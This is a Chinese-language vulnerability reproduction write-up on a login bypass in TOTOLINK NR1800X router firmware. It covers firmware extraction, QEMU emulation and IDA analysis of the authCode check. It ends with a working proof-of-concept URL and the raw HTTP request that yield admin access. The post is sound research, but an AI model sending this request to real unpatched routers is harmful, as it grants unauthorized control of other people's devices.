 ```yaml
---
title: 物联网学习——totolink登陆绕过漏洞
author: SecureNexusLab
date: 2024-06-15 10:57
cover: true
sidebar: []
readmore: true
tags: 
- 公众号推文
- 二进制安全
categories:
- 公众号推文
---
```


### 漏洞描述

TOTOLINK NR1800X V9.1.0u.6279_B20210910包含登录绕过漏洞，由于对topicurl的值进行处理，来实现不同函数接口的调用，其中对authCode鉴别存在缺陷，导致可以构造URL实现默认登录。

**漏洞类型**：登录绕过漏洞

**影响范围**：totolink	nr1800x 9.1.0u.6279_b20210910版本

**修复版本**：高于9.1.0u.6279_b20210910。

### 复现环境

固件下载地址：

https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/225/ids/36.html

固件信息：NR1800X_Firmware V9.1.0u.6279_B20210910

解压后使用binwalk提取.web文件中的文件系统

```bash
binwalk -Me TOTOLINK_C834FR-1C_NR1800X_IP04469_MT7621A_SPI_16M256M_V9.1.0u.6279_B20210910_ALL.web
```

### 模拟启动

先在操作系统中(ubuntu18.04)安装好qemu和其他工具。

```bash
sudo apt-get install qemu
sudo apt-get install qemu-user-static
sudo apt-get install qemu-system
sudo apt-get install uml-utilities
sudo apt-get install bridge-utils
```

安装完成之后，修改ubuntu系统主机的网络配置

详细的网络配置请参考：

https://blog.csdn.net/QQ1084283172/article/details/69378333

如果找不到br0，注意查看以下命令是否正常运行。

```bash
sudo ifdown ens32
sudo ifup br0
```

下载qemu需要用到的镜像和其他文件。下载地址：

https://people.debian.org/~aurel32/qemu/mips/



![images](/images/iot-totolink-sign-in-vuln/1.png)



将下载的文件都存放在在一个目录中，方便使用命令启动。然后启动qemu虚拟机。qemu虚拟机默认账密root:root

```
sudo qemu-system-mipsel -M malta -kernel mipsel-vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1 console=tty0" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic
```

虚拟机启动之后ifconfig查看ip地址，如果没有IP地址信息，需要手动进行设置

qemu虚拟机：

```
ifconfig eth0 192.168.102.200 netmask 255.255.255.0
```

ubuntu系统主机：

```
sudo ifconfig tap0 192.168.102.199 netmask 255.255.255.0
```

设置好IP之后，可以用ifconfig命令再次查看，然后使用ping 测试两台主机的通信。

将提取到的固件打包成tar文件，然后使用scp命令传到qemu虚拟机中

拷贝系统文件：

```
scp -r squashfs-root.tar  root@192.1.1.200:/root/

chmod -R 777 squashfs-root
mount -o bind /dev ./squashfs-root/dev/
mount -t proc /proc ./squashfs-root/proc/
chroot ./squashfs-root/ sh
```

我们还需要调起服务

```
./usr/sbin/lighttpd -f ./lighttp/lighttpd.conf
```

访问目标网页

![images](/images/iot-totolink-sign-in-vuln/2.png)



### 漏洞分析

首先查看登录时的数据包，有两个关键数据包

第一个是登录的POST数据包
![images](/images/iot-totolink-sign-in-vuln/3.png)

漏洞分析首先查看登录时的数据包，有两个关键数据包第一个是登录的POST数据包

第二个是登录失败跳转的数据包
![images](/images/iot-totolink-sign-in-vuln/4.png)

使用IDA打开`/cgi-bin/cstecgi.cgi`文件，搜索`action=login`

![images](/images/iot-totolink-sign-in-vuln/5.png)

查看逆向后的代码

![images](/images/iot-totolink-sign-in-vuln/6.png)

格式化处理URL是为了便于后续数据的传递，如下图：

![images](/images/iot-totolink-sign-in-vuln/7.png)

接下来要调用相应函数

![images](/images/iot-totolink-sign-in-vuln/8.png)



接下来寻找目标有点麻烦，我们需要再搜索一下formLoginAuth.htm字符，进而跳转到sub_42AEEC函数中

![images](/images/iot-totolink-sign-in-vuln/9.png)



函数中包含对用户名和密码输入的获取处理，以及构造redirectURL的过程，其中有个关键词”authCode”

![images](/images/iot-totolink-sign-in-vuln/10.png)



我们还要对lighttpd文件进行逆向，并搜索authCode，发下如下代码，其中依次获取了参数值

![images](/images/iot-totolink-sign-in-vuln/11.png)

而后续对v7的处理上

![images](/images/iot-totolink-sign-in-vuln/12.png)

仅仅判断了v7是否存在就可以直接获取session_id，这也是漏洞发生的根本原因

### 漏洞复现

构造PoC：

```
http://192.168.102.200/formLoginAuth.htm?authCode=1&userName=admin&goURL=home.html&action=login
```

原始流量数据包：

```
GET /formLoginAuth.htm?authCode=1&userName=admin&goURL=home.html&action=login HTTP/1.1
Host: 192.168.102.200
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: SESSION_ID=2:1711291127:2
Upgrade-Insecure-Requests: 1
```

虽然相应包是302，但后续的数据包表明，重定向到了/basic/index.html中

Wireshark截图：

![images](/images/iot-totolink-sign-in-vuln/13.png)
